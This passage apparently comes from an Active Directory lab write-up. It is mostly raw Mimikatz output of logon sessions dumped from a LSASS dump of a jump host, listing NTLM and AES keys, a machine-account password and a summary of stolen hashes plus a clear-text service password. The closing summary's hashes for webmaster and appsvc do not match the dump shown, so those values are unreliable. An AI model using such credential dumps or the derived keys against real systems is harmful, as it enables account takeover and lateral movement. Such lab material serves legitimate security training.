Authentication Id : 0 ; 8846285 (00000000:0086fbcd)
Session : RemoteInteractive from 2
User Name : pawadmin
Domain : US
Logon Server : US-DC
Logon Time : 7/7/2024 2:39:46 AM
SID : S-1-5-21-210670787-2521448726-163245708-1138
* Username : pawadmin
* Domain : US.TECHCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30
rc4hmacnt 36ea28bfa97a992b5e85bd22485e8d52
rc4hmacold 36ea28bfa97a992b5e85bd22485e8d52
rc4_md4 36ea28bfa97a992b5e85bd22485e8d52
rc4hmacnt_exp 36ea28bfa97a992b5e85bd22485e8d52
rc4hmacold_exp 36ea28bfa97a992b5e85bd22485e8d52
**Authentication Id : 0 ; 8845528 (00000000:0086f8d8)
Session : RemoteInteractive from 2
User Name : pawadmin
Domain : US
Logon Server : US-DC
Logon Time : 7/7/2024 2:39:46 AM
SID : S-1-5-21-210670787-2521448726-163245708-1138
* Username : pawadmin
* Domain : US.TECHCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30
rc4hmacnt 36ea28bfa97a992b5e85bd22485e8d52
rc4hmacold 36ea28bfa97a992b5e85bd22485e8d52
rc4_md4 36ea28bfa97a992b5e85bd22485e8d52
rc4hmacnt_exp 36ea28bfa97a992b5e85bd22485e8d52
rc4hmacold_exp 36ea28bfa97a992b5e85bd22485e8d52**
Authentication Id : 0 ; 41592 (00000000:0000a278)
Session : Interactive from 1
User Name : DWM-1
Domain : Window Manager
Logon Server : (null)
Logon Time : 7/7/2024 2:08:15 AM
SID : S-1-5-90-0-1
* Username : US-JUMP$
* Domain : us.techcorp.local
Password : @pEWg3"x?4vzWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)
* Key List :
aes256_hmac 59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
aes128_hmac 07f7247812bc59f6608f61bc06c91b29
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
Authentication Id : 0 ; 999 (00000000:000003e7)
Session : UndefinedLogonType from 0
User Name : US-JUMP$
Domain : US
Logon Server : (null)
Logon Time : 7/7/2024 2:08:14 AM
SID : S-1-5-18
* Username : us-jump$
* Domain : US.TECHCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac 88f63b9e6109aeab1c3d706a8345088659b9784614469099b65bac8fe011b277
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
Authentication Id : 0 ; 37358898 (00000000:023a0d32)
Session : Interactive from 3
User Name : DWM-3
Domain : Window Manager
Logon Server : (null)
Logon Time : 7/21/2024 3:42:02 AM
SID : S-1-5-90-0-3
* Username : US-JUMP$
* Domain : us.techcorp.local
Password : @pEWg3"x?4vzWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)
* Key List :
aes256_hmac 59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
aes128_hmac 07f7247812bc59f6608f61bc06c91b29
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
Authentication Id : 0 ; 8590149 (00000000:00831345)
Session : Interactive from 2
User Name : DWM-2
Domain : Window Manager
Logon Server : (null)
Logon Time : 7/7/2024 2:39:05 AM
SID : S-1-5-90-0-2
* Username : US-JUMP$
* Domain : us.techcorp.local
Password : @pEWg3"x?4vzWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)
* Key List :
aes256_hmac 59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
aes128_hmac 07f7247812bc59f6608f61bc06c91b29
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
Authentication Id : 0 ; 8590133 (00000000:00831335)
Session : Interactive from 2
User Name : DWM-2
Domain : Window Manager
Logon Server : (null)
Logon Time : 7/7/2024 2:39:05 AM
SID : S-1-5-90-0-2
* Username : US-JUMP$
* Domain : us.techcorp.local
Password : @pEWg3"x?4vzWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)
* Key List :
aes256_hmac 59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
aes128_hmac 07f7247812bc59f6608f61bc06c91b29
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
Authentication Id : 0 ; 996 (00000000:000003e4)
Session : Service from 0
User Name : US-JUMP$
Domain : US
Logon Server : (null)
Logon Time : 7/7/2024 2:08:14 AM
SID : S-1-5-20
* Username : us-jump$
* Domain : US.TECHCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac 88f63b9e6109aeab1c3d706a8345088659b9784614469099b65bac8fe011b277
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
Authentication Id : 0 ; 37356373 (00000000:023a0355)
Session : Interactive from 3
User Name : UMFD-3
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 7/21/2024 3:42:02 AM
SID : S-1-5-96-0-3
* Username : US-JUMP$
* Domain : us.techcorp.local
Password : @pEWg3"x?4vzWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)
* Key List :
aes256_hmac 59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
aes128_hmac 07f7247812bc59f6608f61bc06c91b29
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
**Authentication Id : 0 ; 12049501 (00000000:00b7dc5d)
Session : Service from 0
User Name : webmaster
Domain : US
Logon Server : US-DC
Logon Time : 7/7/2024 2:47:00 AM
SID : S-1-5-21-210670787-2521448726-163245708-1140
* Username : webmaster
* Domain : US.TECHCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac 2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0
rc4hmacnt 23d6458d06b25e463b9666364fb0b29f
rc4hmacold 23d6458d06b25e463b9666364fb0b29f
rc4_md4 23d6458d06b25e463b9666364fb0b29f
rc4hmacnt_exp 23d6458d06b25e463b9666364fb0b29f
rc4hmacold_exp 23d6458d06b25e463b9666364fb0b29f**
Authentication Id : 0 ; 8580692 (00000000:0082ee54)
Session : Interactive from 2
User Name : UMFD-2
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 7/7/2024 2:39:03 AM
SID : S-1-5-96-0-2
* Username : US-JUMP$
* Domain : us.techcorp.local
Password : @pEWg3"x?4vzWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)
* Key List :
aes256_hmac 59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
aes128_hmac 07f7247812bc59f6608f61bc06c91b29
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
Authentication Id : 0 ; 41558 (00000000:0000a256)
Session : Interactive from 1
User Name : DWM-1
Domain : Window Manager
Logon Server : (null)
Logon Time : 7/7/2024 2:08:15 AM
SID : S-1-5-90-0-1
* Username : US-JUMP$
* Domain : us.techcorp.local
Password : @pEWg3"x?4vzWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)
* Key List :
aes256_hmac 59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
aes128_hmac 07f7247812bc59f6608f61bc06c91b29
rc4hmacnt abff11a76a2fa6de107f0ea8251005c5
rc4hmacold abff11a76a2fa6de107f0ea8251005c5
rc4_md4 abff11a76a2fa6de107f0ea8251005c5
rc4hmacnt_exp abff11a76a2fa6de107f0ea8251005c5
rc4hmacold_exp abff11a76a2fa6de107f0ea8251005c5
mimikatz(commandline) # exit
`
We can see above that we were able to dump all the Creds from nano.dmp file. It is possible to see above that we do have found 3 new users and their ekeys
User: webmaster
NTLM_Hash: 1d49d390ac01d568f0ee9be82bb74d4c
AES256: 2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0
User: pawadmin
NTLM_Hash: 36ea28bfa97a992b5e85bd22485e8d52
AES256: a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30
User: appsvc
Clear-Text_PWD: Us$rT0AccessDBwithImpersonation
NTLM_Hash: 1d49d390ac01d568f0ee9be82bb74d4c
AES256: b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335